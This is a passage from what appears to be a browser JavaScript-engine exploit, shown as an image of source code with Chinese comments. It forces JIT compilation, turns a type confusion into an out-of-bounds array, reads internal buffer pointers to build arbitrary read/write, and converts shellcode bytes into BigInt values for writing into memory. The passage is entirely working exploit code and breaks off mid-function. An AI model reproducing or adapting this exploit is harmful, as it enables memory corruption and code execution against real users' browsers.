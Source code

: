 ```
});
function main(p) {
    for (let i=0; i<0xc00c; i++) {empty();} // 触发JIT
    f(p);
}
// 将类型混淆转化为越界读写
function confusion_to_oob() {
    console.log("[+] convert confusion to oob......");

    for (let i=0; i<0xc00c; i++) {empty();} // 触发JIT

    main(empty);
    main(empty);

    main(p);
    console.log("   oob_array.length: " + hex(oob_array.length));
}
// 获取任意地址读写
function get_arw() {
    console.log("[+] get absolute read/write access......");

    // 相对于oob_array[0]的偏移
    uint64_length_offset = 16;
    uint64_externalptr_offset = 17;
    uint64_baseptr_offset = 18;
    // 用来保存这三个值
    uint64_length = f2i(oob_array[uint64_length_offset]);
    uint64_externalptr_ptr = f2i(oob_array[uint64_externalptr_offset]);
    uint64_baseptr_ptr = f2i(oob_array[uint64_baseptr_offset]);
    console.log("   uint64_length_offset: " + hex(uint64_length));
    console.log("   uint64_externalptr_offset: " + hex(uint64_externalptr_ptr));
    console.log("   uint64_baseptr_offset: " + hex(uint64_baseptr_ptr));

    test = [0x41,0x41,0x41,0x41];
    arw_write(uint64_externalptr_ptr+0x08088888n, test);
}
// 将shellcode[]转化为BitInt
function ByteToBigIntArray(payload)
{

    let sc = []
    let tmp = 0n;
    let lenInt = BigInt(Math.floor(payload.length/8))
    for (let i = 0n; i < lenInt; i += 1n) {
        tmp = 0n;
        for(let j=0n; j<8n; j++){
            tmp += BigInt(payload[i*8n+j])*(0x1n<<(8n*j));
        }
        sc.push(tmp);
    }

    let len = payload.length%8;
    tmp = 0n;
    for(let i=0n; i<len; i++){
        tmp += BigInt(payload[lenInt*8n+i])*(0x1n<<(8n*i));
    }
    sc.push(tmp);
    return sc;
}
// 任意地址写
function arw_write(addr, payload)
{
    sc = ByteToBigIntArray(payload);
```